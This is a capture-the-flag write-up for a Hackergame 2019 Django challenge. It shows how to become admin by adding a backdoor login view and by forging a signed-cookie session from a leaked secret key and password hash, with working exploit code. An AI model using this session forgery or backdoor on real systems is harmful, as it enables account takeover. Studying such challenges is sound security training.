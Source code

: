 hackergame2019-被泄露的姜戈(CallMeCro)
----
「听说有离职的同学，把你们的代码和数据库泄漏了出去？好像还在什么 hub 还是 lab 来着建了一个叫 openlug……」

「没关系，反正 admin 用户的密码长度有 1024 位，我自己都忘了密码，就算老天爷来了，也看不到我们的 flag！」

Examination Site
----
* django session
* python code analysis

Analysis
----
Opening the web page will display a form that requires us to input an account and password.A hint is below the form
```bash
你可以使用 guest 用户（密码为 guest）体验。
```
When you login as the guest,the web page will display your cookie and remind you that you can get the flag only by logging in as the admin.
```bash
Debug - Your cookie
sessionid=.eJxVjDEOgzAMRe_iGUUQULE7du8ZIid2GtoqkQhMVe8OSAzt-t97_wOO1yW5tersJoErWGh-N8_hpfkA8uT8KCaUvMyTN4diTlrNvYi-b6f7d5C4pr1uGXGI6AnHGLhjsuESqRdqByvYq_JohVDguwH3fzGM:1iMsPb:Nx7ePDqCPji95TS21SJGVh3TBbk
```
So we can see that we have to login as the admin to get the flag.
With the question description,we will find the source code:
https://github.com/openlug/django-common
https://gitlab.com/openlug/django-common

```bash
from django.core.management.base import BaseCommand
from django.contrib.auth.models import User
import os


class Command(BaseCommand):
    help = 'Create admin & guest user'

    def handle(self, *args, **options):
        def create_user(name, password=None):
            user = User.objects.create_user(name,
                                            password=os.urandom(1024) if password is None else password)
            user.is_superuser = False
            user.is_staff = False
            user.save()

        create_user("admin")
        create_user("guest", "guest")
```
After analyzing,we will see that it's unrealistic to login as the admin by cracking the password,only by foring the session.Let's exploit it!

Expolit One
----
Since you have source code,you can make a backdoor to be admin login to enter the profile.But it need some knowledge about django.

Add it in the app/views.py:
```bash
def backdoor(request):
    user = User.objects.get(username="admin")  # use Django ORM to choice admin 
    login(request, user) # login as admin
    return redirect(reverse("profile")) # jump to profile
```

Add it in the app/urls.py:
```bash
path('backdoor', views.backdoor, name='backdoor')
```
Run it,then we access the backdoor to get admin cookie which can be used to log in the server to get flag{Never_leak_your_sEcReT_KEY}.

Exploit Two
----
Analyzing the session code and forging it, this was my frist idea.However,I didn't understand the source code because I didn't understand function "signing.loads" and I gave up here **(SUCCESS IS CLOSE AT HAND, AND IT IS A SHORTFALL)**.

As we have the guest cookie
```bash
.eJxVjDEOgzAMRe_iGUUQULE7du8ZIid2GtoqkQhMVe8OSAzt-t97_wOO1yW5tersJoErWGh-N8_hpfkA8uT8KCaUvMyTN4diTlrNvYi-b6f7d5C4pr1uGXGI6AnHGLhjsuESqRdqByvYq_JohVDguwH3fzGM:1iMsxr:yKCyLqXVih52879xB-FmomMjwsg
```
we can use "signing.loads" to restore it.
```bash
{'_auth_user_hash': '0a884f8b987fca1a92c6f93d9042d83eea72d98d', '_auth_user_id': '2', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend'}
```
It is easy to guess that admin auth_user_id is 1.Now we need to know the auth_user_hash.
It is generated by get_session_auth_hash() in django/contrib/auth/base_user.py.
```bash
def get_session_auth_hash(self):
    """
    Return an HMAC of the password field.
    """
    key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
    return salted_hmac(key_salt, self.password).hexdigest()
```

Finally,the exp is this.
```bash
from django.core import signing
from django.utils.crypto import salted_hmac

admin_hash = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="

_auth_user_hash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash",
                              admin_hash).hexdigest()

payload = {'_auth_user_id': '1',
           '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
           '_auth_user_hash': _auth_user_hash}

cookie = signing.dumps(payload,
                       salt='django.contrib.sessions.backends.signed_cookies',
                       compress=True)

print(cookie)
```
Add this in the backdoor and access localhost/backdoor to get it.




